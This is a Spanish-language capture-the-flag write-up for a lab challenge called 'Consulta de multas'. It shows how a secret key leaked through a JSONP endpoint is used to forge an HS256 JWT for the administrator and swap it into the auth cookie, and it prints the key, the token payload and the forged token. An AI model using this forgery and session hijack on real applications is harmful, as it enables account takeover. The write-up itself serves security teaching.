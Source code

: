 ## 🔐 Escalada de privilegios vía JWT – Desafío "Consulta de multas"

---

### 🎯 Objetivo del desafío

Acceder como **administrador** para poder "pagar" las multas de Ignacio, quien considera que son injustas. Se nos provee:

- Usuario de Ignacio: `ignacio_123@yopmail.com`
- Contraseña: `12345678`
- Email del administrador: `administrador_multas@yopmail.com`

---

### 🧪 Paso 1: Inspección de la cookie de autenticación

Una vez logueados como Ignacio, se detecta una cookie con nombre `auth` que contiene un JWT:

```
e.g: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoxLCJ1c2VybmFtZSI6ImlnbmFjaW9fMTIzQHlvcG1haWwuY29tIiwiZXhwIjoxNzQ0ODUzNTY2LCJlbWFpbCI6ImlnbmFjaW9fMTIzQHlvcG1haWwuY29tIiwib3JpZ19pYXQiOjE3NDQyNDg3NjZ9.6VBuluAsIjoDKpDg7x54yTlL5sbc5_6w3piwHt_lWjs
```

![📸 **Imagen 1**](./img/token.png)

---

### 🔍 Paso 2: Descubrimiento de información sensible vía JSONP

Al navegar la aplicación se detecta una request tipo **JSONP** en la siguiente URL:

```
https://<dominio>/jsonp/?callback=procesarDatos
```

Esta respuesta expone una variable clave:

```json
SECRET_KEY: "123456@pz*+2p(e10(n7891)"
```

![📸 **Imagen 2**](./img/clave.png)
---

### 🧩 Paso 3: Generación de nuevo JWT con privilegios de administrador

Con la clave obtenida, generamos un JWT con los datos del administrador:

```json
{
  "user_id": 1,
  "username": "administrador_multas@yopmail.com",
  "email": "administrador_multas@yopmail.com",
  "exp": 1744853751,
  "orig_iat": 1744248951
}
```

Usamos `HS256` como algoritmo y firmamos el token con la clave:

```
123456@pz*+2p(e10(n7891)
```

🔐 **JWT generado:**
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoxLCJ1c2VybmFtZSI6ImFkbWluaXN0cmFkb3JfbXVsdGFzQHlvcG1haWwuY29tIiwiZXhwIjoxNzQ0ODUzNzUxLCJlbWFpbCI6ImFkbWluaXN0cmFkb3JfbXVsdGFzQHlvcG1haWwuY29tIiwib3JpZ19pYXQiOjE3NDQyNDg5NTF9.UfWrAMKKQUtOmVgIuOrhK0yb99Kp-jTYRRCkBBkXboU
```

---

### 🚪 Paso 4: Suplantación de sesión y acceso como administrador

Se reemplaza el valor de la cookie `auth` por el nuevo JWT forjado y al recargar la página `/perfil/`, se accede correctamente como **administrador**.

Desde ahí se habilita la opción para "pagar" las multas.

---

### 📌 Conclusión

Este desafío expone cómo una mala práctica (exposición de `SECRET_KEY`) combinada con JWT mal implementado puede comprometer completamente la seguridad de una aplicación. En entornos reales esto permitiría tomar control total sobre cuentas sensibles.